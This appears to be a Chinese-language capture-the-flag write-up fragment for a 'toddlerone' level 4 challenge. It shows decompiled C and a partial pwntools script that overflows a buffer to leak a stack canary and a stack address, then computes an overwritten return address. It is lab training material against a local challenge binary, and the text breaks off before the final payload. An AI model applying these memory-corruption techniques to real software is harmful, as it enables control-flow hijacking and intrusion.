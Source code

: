 ```python
```

## level 4

这一关跟上一关的区别是，在你不传入REPEAT的情况下，他会检验一个8个字节的值，如果不对就调用exit。调用exit就不会再回到程序的执行流了，就直接退出了。所以你覆盖的返回地址就失效了。所以必须要在栈空间的构造中，填入这个值。**注意数字0xbeef和真实的数据发送0xef 0xbe**!

```c
  if ( strstr((const char *)buf, "REPEAT") )
  {
    puts("Backdoor triggered! Repeating challenge()");
    return challenge(v9, v8, v7);
  }
  else
  {
    puts("Goodbye!");
    puts("This challenge will, by default, exit() instead of returning from the");
    puts("challenge function. When a process exit()s, it ceases to exist immediately,");
    puts("and no amount of overwritten return addresses will let you hijack its control");
    puts("flow. You will have to reverse engineer the program to understand how to avoid");
    puts("making this challenge exit(), and allow it to return normally.");
    if ( v14 != 0xF58B48D72EC7B457LL )
    {
      puts("exit() condition triggered. Exiting!");
      exit(42);
    }
    puts("exit() condition avoided! Continuing execution.");
    return 0LL;
  }
```

```python

from pwn import *

elf = ELF("/challenge/toddlerone_level4.1")

p = process("/challenge/toddlerone_level4.1")
p.recvuntil("Payload size: ")

init_payload_size = 0x58 + 0x8 + 0x8 + 0x8 - 8 + 1
p.sendline(f"{init_payload_size}")
init_payload = b'REPEAT' + b'A' * (init_payload_size - 6)
p.send(init_payload)
p.recvuntil("You said: ")
response = p.recvline().strip()
canary_value = response[init_payload_size:init_payload_size+7].rjust(8, b'\x00')
canary_value = p64(u64(canary_value))
print(f"canary_value: {canary_value}")

p.recvuntil("Payload size: ")
p.sendline(f"{init_payload_size}")
p.send(init_payload)
p.recvuntil("You said: ")
response = p.recvline().strip()
stack_value = response[init_payload_size+7:].ljust(8, b'\x00')
stack_value = u64(stack_value)
print(f"stack_value: {p64(stack_value)}")


return_address = p64(stack_value - 0xC0 - 0xC0 - 0x70)

real_payload_size = 0x58 + 0x8 + 0x8 + 0x8 + 0x8 + 0x8

```